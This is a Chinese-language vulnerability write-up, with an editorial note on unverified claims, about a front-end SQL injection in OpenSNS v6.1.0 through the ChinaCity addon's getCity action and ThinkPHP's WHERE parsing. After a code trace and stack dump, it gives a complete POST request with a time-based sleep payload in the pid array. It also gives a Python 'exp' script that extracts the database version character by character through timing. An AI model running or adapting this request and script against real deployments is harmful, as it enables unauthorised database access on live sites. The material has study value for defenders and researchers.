## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：ChinaCity启用getCity可达、pid数组传至ThinkPHP运算符解析；空Cookie例示

- **事实待核（1）**：深度栈和完整请求较全，与308同机制但版本/实验差异有用。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：vul url显示目标路径却链接t00ls主页，来源锚文本不一致。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（3）**：Python异常计时提取无break/结束判据，会持续枚举49位128字符；无基线导致网络超时误报。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（4）**：源码主要图片，需补具体ThinkPHP补丁版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# OpenSNS v6.1.0 前台sql注入

一、漏洞简介
------------

二、漏洞影响
------------

OpenSNS v6.1.0

三、复现过程
------------

### 漏洞分析

Addons/ChinaCity/Controller/ChinaCityController.class.php:50
发现我们输入的payload，向前查找，最开始从\$\_POST获取，如何处理，到此处

ThinkPHP/Common/functions.php:343 跟进I函数获取到payload

继续跟发现有参数过滤，可仔细一看跟没过滤一样



到这里向前追溯就结束了，从`$pid = I('pid');` 向后跟

跟进 \\Addons\\ChinaCity\\Model\\DistrictModel::\_list
`$list = D('Addons://ChinaCity/District')->_list($map);`跟进
Addons/ChinaCity/Model/DistrictModel.class.php:12

ThinkPHP/Library/Think/Model.class.php:618
`$resultSet = $this->db->select($options);`ThinkPHP/Library/Think/Db.class.php:772



Db.class.php:799, Think\\Db-\>buildSelectSql() 下的 `$this->parseSQl`
ThinkPHP/Library/Think/Db.class.php:799

ThinkPHP/Library/Think/Db.class.php:804
发现执行了2个其他的sql语句，在此处（`buildSelectSql 里->return $sql`）下断点可以看到sql语句

ThinkPHP/Library/Think/Db.class.php:813

ThinkPHP/Library/Think/Db.class.php:821
`$this->parseWhere(!empty($options['where'])?$options['where']:''),`

ThinkPHP/Library/Think/Db.class.php:423

跟到



ThinkPHP/Library/Think/Db.class.php:457

ThinkPHP/Library/Think/Db.class.php:468



ThinkPHP/Library/Think/Db.class.php:457



ThinkPHP/Library/Think/Db.class.php:497



虽然这个地方有转译，但只有\$val\[1\]



ThinkPHP/Library/Think/Db.class.php:464



ThinkPHP/Library/Think/Db.class.php:813



ThinkPHP/Library/Think/Db.class.php:773
`$result = $this->query($sql,$this->parseBind(!empty($options['bind'])?$options['bind']:array()));`

执行成功 sleep了

    Db.class.php:469, Think\Db->parseWhereItem()
    Db.class.php:457, Think\Db->parseWhere()
    Db.class.php:821, Think\Db->parseSql()
    Db.class.php:799, Think\Db->buildSelectSql()
    Db.class.php:772, Think\Db->select()
    Model.class.php:618, Think\Model->select()
    DistrictModel.class.php:12, Addons\ChinaCity\Model\DistrictModel->_list()
    ChinaCityController.class.php:58, Addons\ChinaCity\Controller\ChinaCityController->getCity()
    AddonsController.class.php:42, Home\Controller\AddonsController->execute()
    App.class.php:153, ReflectionMethod->invokeArgs()
    App.class.php:153, Think\App::exec()
    App.class.php:193, Think\App::run()
    Think.class.php:121, Think\Think::start()
    ThinkPHP.php:96, require()
    index.php:73, {main}()

### 漏洞复现

#### vul url

> [http://0-sec.org/uploads\_download\_2019-07-16\_5d2d5d4697d88/index.php?s=/home/addons/\_addons/china\_city/\_controller/china\_city/\_action/getcity.html](https://www.t00ls.net/)

#### poc

    POST /index.php?s=%2Fhome%2Faddons%2F_addons%2Fchina_city%2F_controller%2Fchina_city%2F_action%2Fgetcity.html HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
    Content-Length: 116
    Accept: */*
    Cookie: 
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Origin: http://192.168.95.131
    Referer: http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/ucenter/config/index.html
    X-Requested-With: XMLHttpRequest
    Accept-Encoding: gzip

    cid=0&pid%5B0%5D=%3D%28select%2Afrom%28select%2Bsleep%283%29union%2F%2A%2A%2Fselect%2B1%29a%29and+3+in+&pid%5B1%5D=3





Vulnerability file

Addons/ChinaCity/Controller/ChinaCityController.class.php:50



ThinkPHP/Library/Think/Db.class.php:772





#### exp

    import requests
    from requests import exceptions

    url="http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

    header={'X-Requested-With':'XMLHttpRequest'}
    # proxies={'http':'127.0.0.1:8080'}
    flag=''
    for i in range(1,50):
        for j in range(32,128):
            try:
                data={
                    'cid':0,
                    'pid[0]':"=(select if(ord(substr((select version()),{},1))={},sleep(10),0))AND 3 IN  ".format(i,j),
                    'pid[1]':3
                }
                # print data['pid[0]']
                r=requests.post(url,data=data,headers=header,timeout=5)

            except exceptions.Timeout :
                flag+=chr(j)
                print flag



参考链接
--------

> <https://www.t00ls.net/thread-54688-1-1.html>
